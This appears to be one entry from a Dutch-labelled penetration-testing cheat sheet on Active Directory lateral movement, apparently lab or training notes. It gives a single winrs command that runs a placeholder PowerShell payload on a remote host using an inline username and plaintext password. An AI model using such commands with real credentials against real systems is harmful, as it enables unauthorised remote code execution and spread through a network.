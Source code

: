 # 24. AD Lateral Movement — Entry 6

## Categorie

WINRS

## Commando

winrs -r:files04 -u:jen -p:Nexus123! "POWERSHELL PAYLOAD"

## Omschrijving

Using winRS to execute our payload

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

